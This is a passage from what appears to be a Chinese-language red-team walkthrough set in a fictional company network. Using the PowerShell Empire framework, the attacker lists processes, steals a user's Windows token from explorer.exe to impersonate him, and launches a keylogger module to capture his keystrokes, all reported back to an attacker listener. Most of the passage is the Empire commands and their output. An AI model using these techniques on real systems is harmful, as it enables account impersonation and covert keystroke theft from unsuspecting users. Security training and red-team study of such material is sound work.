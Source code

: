 但是，如果我们使用这个会话启动一个键盘记录程序，我们将只得到 barney 的工作站上 adm\_supreme 帐户所按下的按键…这意味着0个按键。这个限制是由于 PowerShell Empire 框架中的键盘记录器的简单性造成的。当然，它有它的优点：它是一个非常轻量级的模块，不会产生太多噪音。

为了模拟 barney 的身份，我们将在包含他的令牌的机器上生成一个新进程。令牌相当于 Windows 上的web 会话 cookie。它是内存中的一个结构，引用每个进程背后用户的特权和身份。

为了获取 Barney 的安全令牌，我们只需从他当前运行的现有程序中窃取它：Internet Explorer、Firefox等。

```text
(Empire: 4DMWAKBDMXMBLHL1) > ps
(Empire: 4DMWAKBDMXMBLHL1) >
ProcessName    PID    Arch    UserName    
-----------    ---    ----    --------    
Idle    0    x64    N/A    
System    4    x64    N/A    
svchost        60    x64    NT
AUTHORITY\LOCAL SERVICE
smss    232    x64    NT AUTHORITY\SYSTEM
csrss    308    x64    NT AUTHORITY\SYSTEM
sqlservr    376    x64    NT AUTHORITY\SYSTEM
wininit    380    x64    NT AUTHORITY\SYSTEM
[...]
explorer    1188    x64    SPH\barney
70.32 MB
enstart64    1196    x64    NT AUTHORITY\SYSTEM
plugin-container    1344    x64    SPH\barney 58.86 MB
vmms    1348    x64    NT AUTHORITY\SYSTEM
taskhostex    1408    x64    SPH\barney 6.36 MB
sppsvc    1732    x64    NT AUTHORITY\NETWORK
```

1188 号进程可能是个不错的目标。“steal\_token” 命令将在后台启动带有 Barney 身份的 PowerShell 进程。

```text
Empire: 4DMWAKBDMXMBLHL1) >
Running As: SPH\barney


Use credentials/tokens with RevToSelf option to revert token privileges
Listener:    http://<FrontGun_IP>:8080 Internal IP:        10.10.20.21
Username:    SPH\barney
Hostname:    FRPC021
OS:    Microsoft Windows 10 Pro High Integrity:    1
Process Name:        powershell Process ID:    6012
PSVersion:    5
```

太棒了！现在Empire Agent可以冒充 Barney 的身份了，我们启动键盘记录器：

```text
(Empire: 4DMWAKBDMXMBLHL1) > usemodule
collection/keylogger
(Empire: 4DMWAKBDMXMBLHL1) > run
```

果然，当 barney 在记事本中疯狂地输入一个看起来像 JCL 脚本的内容时，大量的按键记录开始涌入。 ![](.gitbook/assets/3.keystrike.jpg)

